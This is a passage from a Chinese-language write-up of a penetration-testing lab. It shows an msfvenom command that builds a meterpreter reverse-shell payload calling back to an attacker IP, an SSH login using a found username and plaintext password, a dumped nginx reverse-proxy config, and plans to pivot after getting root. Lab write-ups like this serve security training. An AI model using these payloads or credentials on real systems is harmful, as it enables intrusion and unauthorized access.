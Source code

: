 传到msf里面吧
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.3.100 LPORT=4444 -f elf -o shell.elf
```
没传成功....尝试了很多反弹shell的操作,但是都没有弹成功
最后在tmp目录下发现了凭据,前期已经知道了ssh是开放的,连上去
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa wwwuser@192.168.3.3

wwwuser_123Aqx
```

ssh连上去之后上linpeas脚本,看到了这个nginx配置文件,明白是什么意思了,我拿到的webshell是在内网的192.168.93.120机器上面,而我现在的靶机的内网ip是192.168.93.100,所以我反弹不了web机器的shell回来,有公网ip的这台nginx机器是反向代理了内网的web机器
```bash
-rw-r--r--. 1 root root 1032 Oct  6 20:09 /etc/nginx/nginx.conf
user  nginx;
worker_processes  1;
error_log  /var/log/nginx/error.log warn;
pid        /var/run/nginx.pid;
events {
    worker_connections  1024;
}
http {
  server {
        listen  80;
        server_name  localhost;
        location / {
         proxy_pass  http://192.168.93.120;
              proxy_set_header        Host $host;
              proxy_connect_timeout   90;
              proxy_send_timeout      90;
              proxy_read_timeout      90;
              proxy_buffer_size       4k;
              proxy_buffers           4 32k;
              proxy_busy_buffers_size 64k;
              proxy_temp_file_write_size 64k;
              proxy_redirect          off;
}
}
}
stream  {

upstream proxy_name {

    server 192.168.93.120:3306;

}
server {

    listen 3306;

    proxy_pass proxy_name;

}
```
### 提权
接下来要对内网的机器进一步渗透,这台公网机器需要作为跳板机,先得拿下root

